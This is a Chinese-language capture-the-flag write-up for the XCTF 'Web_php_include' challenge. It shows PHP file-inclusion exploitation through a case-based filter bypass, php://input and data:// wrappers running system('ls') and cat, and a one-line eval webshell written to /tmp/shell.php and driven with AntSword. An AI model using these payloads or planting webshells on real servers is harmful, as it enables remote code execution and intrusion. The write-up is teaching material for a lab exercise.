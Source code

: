 # 攻防世界   Web_php_include

## php伪协议解题

![72656089827](assets/1726560898279.png)

strstr函数区分大小写，因此直接使用大小写绕过该函数即可

> 使用php://input可以访问请求的原始数据的数据流，将POST请求当成php代码执行，因此可以利用POST请求输入恶意代码

使用bp抓包

![72656101570](assets/1726561015705-1726579878048.png)

输入<?php system("ls")?>表示列出当前目录下的所有文件

发现可疑的php文件fl4gisisish3r3.php

利用请求可当成php代码执行这一特点，输入<?php system("cat .....")?>表示查看该php文件的内容

![72656108814](assets/1726561088141-1726579880591.png)

得到了flag！！！！

## data伪协议解题

既然题目过滤掉了php，那我们就可以使用data伪协议，同php://input类似，它也可以让用户控制输入流

![72656122377](assets/1726561223774-1726579882952.png)

在伪协议后输入恶意代码，查看当前目录下的所有文件

同样的方式，写入查看可疑文件的命令

![72656127331](assets/1726561273313-1726579885087.png)

乍一看啥也没有，其实是作为注释藏在了源代码中，即找到了flag!!!!



## 利用php://input伪协议写入一句话（使用蚁剑）

首先用bp抓包，写入如下一句话木马：

```
<?PHP fputs(fopen('/tmp/shell.php','w'),'<?php @eval($_POST[cmd])?>');?>
```

`linux默认tmp是可写目录`

使用蚁剑连接

连接成功之后直接查看文件管理

![72656174782](assets/1726561747822-1726579888398.png)

即可以直接找到目录下面的php文件，点击查看源代码

![72656176441](assets/1726561764418-1726579890818.png)

成功得到flag!!!!!












